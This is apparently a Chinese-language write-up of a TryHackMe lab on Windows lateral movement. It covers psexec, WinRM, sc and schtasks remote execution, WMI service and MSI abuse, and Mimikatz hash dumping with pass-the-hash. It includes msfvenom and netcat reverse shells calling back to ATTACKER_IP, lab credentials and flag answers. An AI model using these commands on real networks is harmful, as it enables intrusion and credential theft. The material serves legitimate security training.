# Lateral Movement and Pivoting - 横向移动和枢纽

> [TryHackMe | Lateral Movement and Pivoting](https://tryhackme.com/room/lateralmovementandpivoting)
>
> Updated in 2023-12-12
>
> 了解在 Windows 网络中横向移动的常用技术。
>
> Learn about common techniques used to move laterally across a Windows network.

## Introduction

在这个房间里，我们将了解横向移动，这是攻击者用来在网络中移动的一组技术，同时尽可能少触发警报。我们将了解到一些在实际中常用的技术以及相关的工具。

学习目标：

- 熟悉攻击者使用的横向移动技术。
- 学习如何使用替代认证材料进行横向移动。
- 学习使用受到攻击的主机作为枢纽的不同方法。

### 初始凭据获取

访问 `http://distributor.za.tryhackme.com/creds` ，得到：

```plaintext
Your credentials have been generated: Username: reece.mitchell Password: Passwords2019
```

## Moving Through the Network - 网络内部移动

### 什么是横向移动

横向移动简而言之就是攻击者在网络中移动的一系列技术。一旦攻击者进入网络的第一台计算机，横向移动对于许多方面至关重要，包括以下几点：

- 达成攻击者的目标
- 绕过网络设定的限制
- 建立额外的网络入口
- 制造混淆，避免被检测

尽管许多网络攻击链将横向移动视为线性过程的附加步骤，实际上它是一个循环的一部分。在这个循环中，我们利用任何可用的凭据进行横向移动，从而获取对新计算机的访问权限，在那里提升权限并尽可能提取凭据。随着新获得的凭据，这个循环再次开始。

<div style={{textAlign:'center'}}>



</div>

通常，在达到网络上的最终目标之前，我们会重复这个循环多次。如果我们的第一个立足点是一个几乎无法访问其他网络资源的计算机，我们可能需要横向移动到其他在网络上拥有更高权限的主机。

### 一个简要的例子

如果我们正在进行一项红队任务，在这个任务中，我们的最终目标是访问一个内部的代码存储库。我们通过一次钓鱼攻击在目标网络上获得了第一个入侵点。通常，钓鱼攻击对非技术用户更有效，因此我们的第一个访问可能是通过营销部门的一台计算机。

通常来说，营销工作站会受到防火墙策略的限制，以阻止其访问网络上的任何关键服务，包括管理协议、数据库端口、监控服务或者其他日常工作中不需要的服务，比如代码存储库。

为了访问敏感的主机和服务，我们需要转移到其他主机，并从那里跳转到我们的最终目标。为此，我们可以尝试提升营销工作站上的权限，并提取本地用户的密码哈希值。如果我们找到了本地管理员，同一个账户可能也存在于其他主机上。在进行一些侦察后，我们发现了一个名为 `DEV-001-PC` 的工作站。我们使用本地管理员的密码哈希值来访问 `DEV-001-PC`，并确认这台计算机是公司内部的一位开发人员拥有的。通过这台计算机，我们可以访问到我们的目标代码存储库。

<div style={{textAlign:'center'}}>



</div>

:::tip

尽管横向移动可能需要用于规避防火墙限制，但它也有助于规避检测。在我们的例子中，即使营销工作站可以直接访问代码存储库，从开发人员的个人电脑连接可能更加符合普通的蓝队分析人员在检查登录审计日志时的行为，因此可能显得不太可疑。

:::

### 攻击者的视角

有几种方式可以让攻击者进行横向移动。最简单的方式是使用标准的管理协议，比如 WinRM、RDP、VNC 或 SSH，连接到网络中的其他计算机。只要在规划连接位置和账户时保持一定的连贯性，这种方法可以模拟普通用户的行为。虽然 IT 用户通过 RDP 连接到 Web 服务器可能很普通且不引起注意，但必须注意不要尝试可疑的连接（比如本地管理员用户为什么从 `Marketing-PC` 连接到 `DEV-001-PC` ?）。

如今，攻击者还有其他一些移动横向的方法，可以在一定程度上增加蓝队有效监测到的难度。虽然没有哪种技术可以被视为绝对安全，但我们至少可以尽量保持潜移默化。在接下来的任务中，我们将研究一些最常见的横向移动技术。

### Administrators and UAC

在本课程介绍的大多数横向移动技术中，我们主要会使用管理员凭证。尽管每个管理员账户似乎都可以发挥同样的作用，但需要区分两种类型的管理员：

- 属于本地管理员组的本地账户
- 属于本地管理员组的域账户

我们感兴趣的差异在于用户账户控制（UAC）对本地管理员（除了默认的 Administrator 账户）施加的限制。默认情况下，本地管理员不能远程连接到计算机并执行管理任务，除非通过 RDP 进行交互式会话。Windows 会拒绝通过 RPC、SMB 或 WinRM 请求的任何管理任务，因为这样的管理员将使用筛选后的中间完整性令牌登录，防止账户执行特权操作。唯一可以获得完整特权的本地账户是默认的 Administrator 账户。

具有本地管理权限的域账户不会受到相同的限制，将以完全的管理员权限登录。

如果需要，可以禁用此安全功能，有时您会发现管理员组中的本地和域账户之间没有区别。但重要的是要记住，如果某些横向移动技术失败，可能是由于使用了强制执行 UAC 的非默认本地管理员。您可以在 [Description of User Account Control and remote restrictions in Windows Vista - Microsoft Learn](https://learn.microsoft.com/en-us/troubleshoot/windows-server/windows-security/user-account-control-and-remote-restriction) 阅读有关此安全功能的更多细节。

## Spawning Processes Remotely - 远程生成进程

本任务将探讨攻击者可以远程生成进程的方法，使其能够在拥有有效凭证的计算机上运行命令。讨论的每种技术都使用略有不同的方式来实现相同的目的，其中一些可能更适合特定的情况。

### Psexec

- Ports: 445/TCP (SMB)
- Required Group Memberships: Administrators

Psexec 多年来一直是需要远程执行进程时的首选方法。它允许管理员用户在拥有访问权限的任何计算机上远程运行命令。Psexec 是 Sysinternals 工具中的一种，可以在这里下载。

Psexec 的工作方式如下：

1. 连接到 `Admin$` 共享并上传一个服务二进制文件。Psexec 使用 psexesvc.exe 作为名称
2. 连接到服务控制管理器，创建并运行一个名为 PSEXESVC 的服务，并将服务二进制文件关联到 `C:\Windows\psexesvc.exe`
3. 创建一些命名管道来处理 stdin/stdout/stderr

<div style={{textAlign:'center'}}>



</div>

要运行 psexec，我们只需要提供远程主机所需的管理员凭据和我们想要运行的命令（为了方便，psexec64.exe 可在 THMJMP2 的 C:\tools 目录中找到）

```powershell
psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe
```

### 使用 WinRM 远程创建进程

- Ports: 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- Required Group Memberships: Remote Management Users

Windows 远程管理（WinRM）是一种基于 Web 的协议，用于远程发送 PowerShell 命令到 Windows 主机。大多数 Windows Server 安装默认启用了 WinRM，使其成为一个吸引人的攻击向量。

要从命令行连接到远程的 PowerShell 会话，我们可以使用以下命令：

```powershelll
winrs.exe -u:Administrator -p:Mypass123 -r:target cmd
```

我们可以通过 PowerShell 完成相同的操作，但要传递不同的凭据，我们需要创建一个 PSCredential 对象：

```powershell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

一旦我们有了 PSCredential 对象，就可以使用 Enter-PSSession 命令创建一个交互式会话：

```powershell
Enter-PSSession -Computername TARGET -Credential $credential
```

PowerShell 还包含 Invoke-Command 命令，它通过 WinRM 远程运行 ScriptBlocks。凭据也必须通过 PSCredential 对象传递：

```powershell
Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}
```

### 使用 sc 命令远程创建服务

- Ports:
  - 135/TCP, 49152-65535/TCP (DCE/RPC)
  - 445/TCP (RPC over SMB Named Pipes)
  - 139/TCP (RPC over SMB Named Pipes)
- Required Group Memberships: Administrators

Windows 服务也可以被利用来运行任意命令，因为它们在启动时执行一个命令。虽然服务可执行文件在技术上与常规应用程序有所不同，但如果我们配置一个 Windows 服务来运行任何应用程序，它仍然会执行它，并在后续执行失败。

我们可以使用 Windows 中提供的标准工具 sc.exe 在远程主机上创建一个服务。在使用 sc 时，它将尝试通过多种方式的远程过程调用（RPC）连接到服务控制管理器（SVCCTL）远程服务程序：

1. 客户端会尝试使用 DCE/RPC 进行连接。首先，客户端将连接到端口 135 的终端映射程序（EPM），它作为可用 RPC 终端点的目录，并请求有关 SVCCTL 服务程序的信息。然后，EPM 将会用 SVCCTL 的 IP 地址和端口号进行响应，该端口号通常是 49152-65535 范围内的动态端口。

    <div style={{textAlign:'center'}}>

    

    </div>

2. 如果上述连接失败，sc 将尝试通过 SMB 命名管道访问 SVCCTL，可以使用端口 445（SMB）或 139（NetBIOS 上的 SMB）。

    <div style={{textAlign:'center'}}>

    

    </div>

我们可以使用以下命令创建并启动名为 “THMservice” 的服务：

```powershell
sc.exe \\TARGET create THMservice binPath= "net user munra Pass123 /add" start= auto
sc.exe \\TARGET start THMservice
```

"Net user" 命令将在启动服务时执行，在系统上创建一个新的本地用户。由于操作系统负责启动服务，您将无法查看命令输出。

要停止和删除服务，我们可以执行以下命令：

```powershell
sc.exe \\TARGET stop THMservice
sc.exe \\TARGET delete THMservice
```

### 远程创建计划任务

另一个我们可以使用的 Windows 功能是计划任务。您可以使用 `schtasks` 在任何 Windows 安装中创建和远程运行计划任务。要创建名为 `THMtask1` 的任务，可以使用以下命令：

```powershell
schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00

schtasks /s TARGET /run /TN "THMtask1"
```

我们将计划类型（/sc）设置为 ONCE，这意味着任务只在指定的时间和日期运行一次。由于我们将手动运行任务，因此起始日期（/sd）和起始时间（/st）实际上不会有太大影响。

由于系统将运行计划任务，因此无法获取命令的输出，这使得这个操作是一种盲目攻击。

最后，要删除计划任务，我们可以使用以下命令清理操作：

```powershell
schtasks /S TARGET /TN "THMtask1" /DELETE /F
```

### 让我们开始吧

完成这个练习，你需要使用在 Task 1 中分配给你的凭据连接到 `THMJMP2` ，凭据在 `http://distributor.za.tryhackme.com/creds` 上。通过 SSH 连接到 `THMJMP2` ：

```powershell
ssh za\\reece.mitchell@thmjmp2.za.tryhackme.com
```

对于这个练习，我们假设我们已经获取了具有管理员访问权限的一些凭据：

- User: ZA.TRYHACKME.COM\t1_leonard.summers
- Password: EZpass4ever

我们将展示如何使用这些凭据通过 `sc.exe` 进行横向移动到 THMIIS。随时尝试其他方法，因为它们都应该适用于 THMIIS。

虽然我们已经展示了如何使用 sc 在远程系统上创建用户（通过使用 `net user`），我们还可以上传我们想要执行的任何二进制文件，并将其与创建的服务关联起来。然而，如果我们尝试使用这种方法运行一个反向 shell，我们会注意到反向 shell 在执行后立即断开连接。原因是服务可执行文件与标准 .exe 文件不同，因此非服务可执行文件几乎会立即被服务管理器终止。幸运的是，msfvenom 支持 `exe-service` 格式，它会将我们喜欢的任何有效负载封装在一个完全功能的服务可执行文件中，防止它被终止。

要创建一个反向 shell，我们可以使用以下命令：

:::tip

因为你将与其他人共享实验室，所以你会希望使用不同的文件名来命名你的有效负载，而不是使用 “myservice.exe”，以避免覆盖其他人的有效负载。

:::

```shell title="AttackBox"
user@AttackBox$ msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=ATTACKER_IP LPORT=4444 -o myservice.exe
```

我们接下来将使用 `t1_leonard.summers` 的凭据，通过 AttackBox 上的 `smbclient` 将我们的有效负载上传到 `THMIIS` 的 `ADMIN$` 共享目录。

```shell title="AttackBox"
user@AttackBox$ smbclient -c 'put myservice.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$/' EZpass4ever
 putting file myservice.exe as \myservice.exe (0.0 kb/s) (average 0.0 kb/s)
```

一旦我们的可执行文件上传完成，我们会在攻击者的机器上设置监听器，以便从 msfconsole 中接收来自反向 shell 的连接。

```shell title="AttackBox"
user@AttackBox$ msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST lateralmovement
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > set payload windows/shell/reverse_tcp
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.10.16:4444
```

或者，您可以在 Linux 控制台上运行以下一行命令来执行相同的操作：

```shell title="AttackBox"
user@AttackBox$ msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set LHOST lateralmovement; set LPORT 4444;exploit"
```

由于 `sc.exe` 不允许我们在命令中指定凭据，我们需要使用 `runas` 来使用 `t1_leonard.summers` 的访问令牌生成一个新的 shell。但是，我们只能通过 SSH 访问该机器，所以如果我们尝试类似 `runas /netonly /user:ZA\t1_leonard.summers cmd.exe` 的命令，新的命令提示符会在用户的会话中生成，但我们无法访问它。为了克服这个问题，我们可以使用 `runas` 生成一个第二个具有 `t1_leonard.summers` 访问令牌的反向 shell：

```powershell title="THMJMP2: Command Prompt"
C:\> runas /netonly /user:ZA.TRYHACKME.COM\t1_leonard.summers "c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4443"
```

:::tip

记住，由于你在使用带有 /netonly 选项的 runas，它不会检查提供的凭据是否有效，所以务必正确输入密码。如果不正确，你稍后会看到一些 “拒绝访问” 错误。

:::

我们可以像往常一样在我们的 AttackBox 上使用 nc 接收反向 shell 连接：

```shell title="AttackBox"
user@AttackBox$ nc -lvp 4443
```

最后，我们可以使用 sc 远程创建一个新服务，并将其与我们上传的二进制文件关联起来：

```powershell title="THMJMP2: Command Prompt (As t1_leonard.summers)"
C:\> sc.exe \\thmiis.za.tryhackme.com create THMservice-3249 binPath= "%windir%\myservice.exe" start= auto
C:\> sc.exe \\thmiis.za.tryhackme.com start THMservice-3249
```

:::tip

确保更改服务的名称，以避免与其他服务发生冲突。

:::

启动服务后，您应该会在 AttackBox 上收到连接，在那里您可以访问 t1_leonard.summers 桌面上的第一个 flag。

:::info Answer the questions below

在 `THMIIS` 上的 `t1_leonard.summers` 桌面上运行 `flag.exe` 文件后，flag 是什么？

```plaintext
THM{MOVING_WITH_SERVICES}
```

:::

## Moving Laterally Using WMI - 使用 WMI 进行横向移动

我们还可以通过使用 Windows Management Instrumentation（WMI）以不同的方式执行前面任务中讨论的许多技术。WMI 是 Windows 对 Web-Based Enterprise Management（WBEM）的实现，这是跨设备访问管理信息的企业标准。

简单来说，WMI 允许管理员执行标准管理任务，攻击者可以滥用这些任务以多种方式进行横向移动，我们将讨论这些方式。

### 从 Powershell 连接到 WMI

在使用 Powershell 命令连接到 WMI 之前，我们需要创建一个包含用户和密码的 PSCredential 对象。该对象将存储在 $credential 变量中，并在本任务中的技术中使用到。

```powershell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

我们可以使用以下命令来建立 WMI 会话，使用其中的任一协议：

- DCOM：将使用 RPC over IP 连接到 WMI。该协议使用 135/TCP 端口和 49152-65535/TCP 端口，就像使用 sc.exe 时所解释的一样。
- Wsman：将使用 WinRM 连接到 WMI。该协议使用 5985/TCP（WinRM HTTP）或 5986/TCP（WinRM HTTPS）端口。

要从 Powershell 建立 WMI 会话，可以使用以下命令，并将会话存储在 $Session 变量中，在接下来的不同技术中都会用到。

```powershell
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

`New-CimSessionOption` cmdlet 用于配置 WMI 会话的连接选项，包括连接协议。然后，将选项和凭据传递给 `New-CimSession` cmdlet 以在远程主机上建立会话。

### 使用 WMI 远程创建进程

- Ports:
  - 135/TCP, 49152-65535/TCP (DCERPC)
  - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- Required Group Memberships: Administrators

我们可以利用 Windows Management Instrumentation (WMI) 从 Powershell 远程生成一个进程，向 Win32_Process 类发送一个 WMI 请求，在之前创建的会话中生成该进程：

```powershell
$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
CommandLine = $Command
}
```

:::tip

WMI 不会允许您查看任何命令的输出，但确实会悄悄地创建所需的进程。

:::

在旧系统上，可以使用命令提示符中的 wmic 完成相同的操作：

```powershell
wmic.exe /user:Administrator /password:Mypass123 /node:TARGET process call create "cmd.exe /c calc.exe"
```

### 使用 WMI 远程创建服务

- Ports:
  - 135/TCP, 49152-65535/TCP (DCERPC)
  - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- Required Group Memberships: Administrators

我们可以通过 Powershell 利用 WMI 来创建服务。要创建名为 THMService2 的服务，可以使用以下命令：

```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "THMService2";
DisplayName = "THMService2";
PathName = "net user munra2 Pass123 /add"; # Your payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}
```

然后，我们可以使用以下命令获取服务的句柄并启动它：

```powershell
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE'THMService2'"

Invoke-CimMethod -InputObject $Service -MethodName StartService
```

最后，我们可以使用以下命令停止并删除服务：

```powershell
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete
```

### 使用 WMI 远程创建计划任务

- Ports:
  - 135/TCP, 49152-65535/TCP (DCERPC)
  - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- Required Group Memberships: Administrators

我们可以使用 Windows 默认安装中提供的一些命令来创建和执行计划任务：

```powershell
# Payload must be split in Command and Args
$Command = "cmd.exe"
$Args = "/c net user munra22 aSdf1234 /add"

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "THMtask2"
Start-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```

要在使用后删除计划任务，我们可以使用以下命令：

```powershell
Unregister-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```

### 使用 WMI 安装 MSI 软件包

- Ports:
  - 135/TCP, 49152-65535/TCP (DCERPC)
  - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- Required Group Memberships: Administrators

MSI 是一种用于安装程序的文件格式。如果我们能够将一个 MSI 软件包复制到目标系统中，然后就可以使用 WMI 来尝试为我们安装它。文件可以以攻击者可用的任何方式进行复制。一旦 MSI 文件位于目标系统中，我们可以通过 WMI 调用 Win32_Product 类来尝试安装它：

```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
```

我们也可以在旧系统中使用 wmic 来达到同样的效果：

```powershell
wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi
```

### 让我们开始吧

要完成此练习，您需要使用在任务 1 中分配给您的凭据连接到 THMJMP2。如果您还没有这样做，请访问 `http://distributor.za.tryhackme.com/creds` 获取凭据。

```plaintext
Your credentials have been generated: Username: damien.horton Password: pABqHYKsG8L7
```

获取凭据后，通过 SSH 连接到 THMJMP2：

```shell
ssh za\\<AD Username>@thmjmp2.za.tryhackme.com
```

针对此练习，我们将假设我们已经获取了具有管理员访问权限的一些凭据：

- User: ZA.TRYHACKME.COM\t1_corine.waters
- Password: Korine.1994

我们将展示如何使用这些凭据通过 WMI 和 MSI 包进行横向移动到 THM-IIS。随时可以尝试本任务中呈现的其他方法。

首先，我们将从攻击者的机器上使用 msfvenom 创建我们的 MSI 载荷：

:::tip

因为你将与他人共享实验室，为避免覆盖其他人的载荷，请使用与 `myinstaller.msi` 不同的文件名。

:::

```shell title="AttackBox"
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=lateralmovement LPORT=4445 -f msi > myinstaller.msi
```

然后，我们使用 SMB 或其他可用的方法复制载荷：

```shell title="AttackBox"
user@AttackBox$ smbclient -c 'put myinstaller.msi' -U t1_corine.waters -W ZA '//thmiis.za.tryhackme.com/admin$/' Korine.1994
 putting file myinstaller.msi as \myinstaller.msi (0.0 kb/s) (average 0.0 kb/s)
```

因为我们将载荷复制到了 ADMIN$ 共享文件夹，所以它会出现在服务器的 `C:\Windows\` 路径下。

我们启动一个处理程序以接收来自 Metasploit 的反向 shell：

```shell title="AttackBox"
msf6 exploit(multi/handler) > set LPORT 4445
msf6 exploit(multi/handler) > set payload windows/x64/shell_reverse_tcp
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.10.16:4445
```

让我们从 Powershell 控制台开始对 THMIIS 建立一个 WMI 会话：

```powershell title="THMJMP2: Powershell"
PS C:\> $username = 't1_corine.waters';
PS C:\> $password = 'Korine.1994';
PS C:\> $securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
PS C:\> $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
PS C:\> $Opt = New-CimSessionOption -Protocol DCOM
PS C:\> $Session = New-Cimsession -ComputerName thmiis.za.tryhackme.com -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

然后，我们调用 Win32_Product 类的 Install 方法来触发有效载荷：

```powershell title="THMJMP2: Powershell"
PS C:\> Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
```

最后，你应该会在你的 AttackBox 中收到一个连接，从这里你可以访问 t1_corine.waters 桌面上的 flag。

:::info Answer the questions below

在 THMIIS 上运行 t1_corine.waters 桌面上的 “flag.exe” 文件后，flag 是什么？

```plaintext
THM{MOVING_WITH_WMI_4_FUN}
```

:::

## Use of Alternate Authentication Material - 使用备用认证材料

“替代认证材料” 是指任何可以用来访问 Windows 账户而不必知道用户密码本身的数据。这是可能的，因为 Windows 网络使用的一些认证协议的工作方式。在这个任务中，我们将研究一些在网络上可用于以用户身份登录的替代方式，当中使用的认证协议包括：

- NTLM 认证
- Kerberos 认证

:::tip

在这个任务中，假设你熟悉从主机提取凭据的方法和工具。Mimikatz 将是整个任务中用于凭据提取的首选工具。

:::

### NTLM Authentication

在深入研究实际的横向移动技术之前，让我们先了解一下 NTLM 身份验证的工作原理：

<div style={{textAlign:'center'}}>


</div>

1. 客户端向其想要访问的服务器发送认证请求。
2. 服务器生成一个随机数，并将其作为挑战发送给客户端。
3. 客户端将自己的 NTLM 密码哈希与挑战（以及其他已知数据）相结合，生成响应以回传给服务器进行验证。
4. 服务器将挑战和响应都转发给域控制器进行验证。
5. 域控制器使用挑战重新计算响应，并将其与客户端最初发送的响应进行比较。如果两者匹配，客户端得到认证；否则拒绝访问。认证结果被发送回服务器。
6. 服务器将认证结果转发给客户端。

描述的过程适用于使用域帐户的情况。如果使用本地帐户，服务器可以在不需要与域控制器交互的情况下直接验证对挑战的响应，因为它在本地的 SAM 中存储了密码哈希。

### 哈希传递

通过从具有管理员权限的主机中提取凭据（使用 Mimikatz 或类似工具），我们可能会得到明文密码或易于破解的哈希值。但如果我们没有那么幸运，最终可能会得到尚未破解的 NTLM 密码哈希。

尽管看起来我们无法真正使用这些哈希值，但在认证期间发送的 NTLM 挑战只需知道密码哈希即可作出响应。这意味着我们可以进行认证，而无需知道明文密码。如果 Windows 域配置为使用 NTLM 认证，我们可以进行 “传递哈希”（Pass-the-Hash，PtH）并成功进行认证。

要提取 NTLM 哈希值，我们可以使用 Mimikatz 从本地 SAM 中读取，或直接从 LSASS 内存中提取哈希值。

#### 从本地 SAM 提取 NTLM 哈希值

此方法只允许您获取计算机上本地用户的哈希值。不会提供任何域用户的哈希值。

```shell title="THMJMP2: Powershell"
mimikatz # privilege::debug
mimikatz # token::elevate

mimikatz # lsadump::sam
RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 145e02c50333951f71d13c245d352b50
```

#### 从 LSASS 内存中提取 NTLM 哈希值

这种方法可以让您提取最近登录到该计算机的任何本地用户和任何域用户的 NTLM 哈希值。

```shell title="THMJMP2: Powershell"
mimikatz # privilege::debug
mimikatz # token::elevate

mimikatz # sekurlsa::msv
Authentication Id : 0 ; 308124 (00000000:0004b39c)
Session           : RemoteInteractive from 2
User Name         : bob.jenkins
Domain            : ZA
Logon Server      : THMDC
Logon Time        : 2022/04/22 09:55:02
SID               : S-1-5-21-3330634377-1326264276-632209373-4605
        msv :
         [00000003] Primary
         * Username : bob.jenkins
         * Domain   : ZA
         * NTLM     : 6b4a57f67805a663c818106dc0648484
```

然后，我们可以使用提取的哈希值通过 Mimikatz 进行 “传递哈希”（PtH）攻击，将一个受害用户的访问令牌注入到一个反向 Shell（或其他您喜欢的命令）中，具体操作如下：

```shell
mimikatz # token::revert
mimikatz # sekurlsa::pth /user:bob.jenkins /domain:za.tryhackme.com /ntlm:6b4a57f67805a663c818106dc0648484 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5555"
```

请注意，我们使用了 `token::revert` 来恢复我们的原始令牌特权，因为尝试使用提升的令牌进行传递哈希是行不通的。

这相当于使用 `runas /netonly` ，但是使用哈希值而不是密码，并将生成一个新的反向 Shell，从中我们可以作为受害用户启动任何命令。

要接收反向 Shell，我们应该在我们的攻击盒上运行一个反向监听器：

```shell title="AttackBox"
user@AttackBox$ nc -lvp 5555
```

有趣的是，如果在这个 Shell 上运行 whoami 命令，它仍然会显示你在执行 PtH 之前使用的原始用户，但是从这里运行的任何命令实际上都会使用我们使用 PtH 注入的凭据。

#### 使用 Linux 来进行哈希传递攻击

如果您可以访问 Linux 主机（比如您的 AttackBox），有几种工具内置支持使用不同协议执行 PtH。根据您可用的服务，您可以执行以下操作：

使用 PtH 连接到 RDP：

```shell
xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH
```

使用 PtH 通过 psexec 连接：

```shell
psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP
```

:::tip

只有 Linux 版本的 psexec 支持 PtH。

:::

使用 PtH 连接到 WinRM：

```shell
evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH
```

### Kerberos Authentication

让我们简要了解一下 Windows 网络中 Kerberos 身份验证的工作原理：

1. 用户发送他的用户名和使用从他密码派生的密钥加密的时间戳到密钥分发中心（KDC）。KDC 通常安装在负责在网络上创建 Kerberos 票据的域控制器上。

    KDC 将创建并发送一个票据授予票据（TGT），允许用户请求访问特定服务的票据，而无需将其凭据传递给服务本身。除了 TGT 之外，还会给用户一个会话密钥，他们需要使用它来生成随后的请求。

    注意 TGT 是使用 krbtgt 账户的密码哈希进行加密的，因此用户无法访问其内容。重要的是要知道，加密的 TGT 包括会话密钥的副本作为其内容的一部分，KDC 无需存储会话密钥，因为在需要时可以通过解密 TGT 来恢复一个副本。

    <div style={{textAlign:'center'}}>

    

    </div>

2. 当用户想要连接到网络上的服务，比如共享、网站或数据库时，他们将使用他们的 TGT 向 KDC 请求一个票据授予服务（TGS）。TGS 是仅允许连接到特定服务的票据。为了请求 TGS，用户将发送他的用户名和使用会话密钥加密的时间戳，以及 TGT 和服务主体名称（SPN）。SPN 指示我们打算访问的服务和服务器名称。

